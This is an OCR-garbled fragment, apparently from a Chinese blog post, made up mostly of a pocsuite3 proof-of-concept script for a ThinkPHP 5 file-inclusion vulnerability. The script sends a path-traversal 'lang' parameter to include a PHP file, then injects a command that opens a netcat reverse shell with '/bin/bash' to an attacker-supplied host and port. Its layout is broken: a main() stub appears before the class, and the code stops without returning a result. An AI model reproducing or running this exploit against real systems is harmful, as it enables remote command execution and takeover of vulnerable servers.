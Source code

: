     def main():  
    register_poc(ThinkPHP5_File_Inclusion)  
      
    if name == 'main':  
    main()  
    

最后，我们再补充一点。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230215145906.png)

    
    
    import pocsuite3  
    from pocsuite3.api import requests as req  
    from pocsuite3.api import register_poc  
    from pocsuite3.api import Output, POCBase  
      
    class ThinkPHP5_File_Inclusion(POCBase):  
    vulID = '12345'  
    version = '1.0'  
    author = 'test'  
    vulDate = '2022-12-09'  
    createDate = '2022-12-09'  
    updateDate = '2022-12-09'  
    references = ['https://tttang.com/archive/1865/']  
    name = 'ThinkPHP5 File Inclusion Vulnerability'  
    appPowerLink = 'https://thinkphp.cn'  
    appName = 'ThinkPHP'  
    appVersion = '5.0'  
    vulType = 'File Inclusion'  
    desc = '''  
    This POC checks for a file inclusion vulnerability in ThinkPHP 5.0.  
    To exploit this vulnerability, the LANG_SWITCH_ON value in the config.php file must be set to true,  
    and a malicious lang parameter must be passed in the URL. This can allow an attacker to include the  
    phearcmd.php file and execute arbitrary commands, including a reverse shell.  
    '''  
    samples = ['']  
      
    def _attack(self):  
        # your code here  
        # send a request with a malicious lang parameter to include phearcmd.php  
        url = self.url + '?lang=../phearcmd.php'  
        r = req.get(url)  
      
        # check if the phearcmd.php file was included  
        if 'PhearCommand execution' in r.text:  
            # send a request to execute a reverse shell command  
            command = 'php -r "system(\'nc -e /bin/bash {0} {1}\');"'.format(self.options.get('lhost'), self.options.get('lport'))  
            url = self.url + '?phearcmd=' + command  
            req.get(url)  
      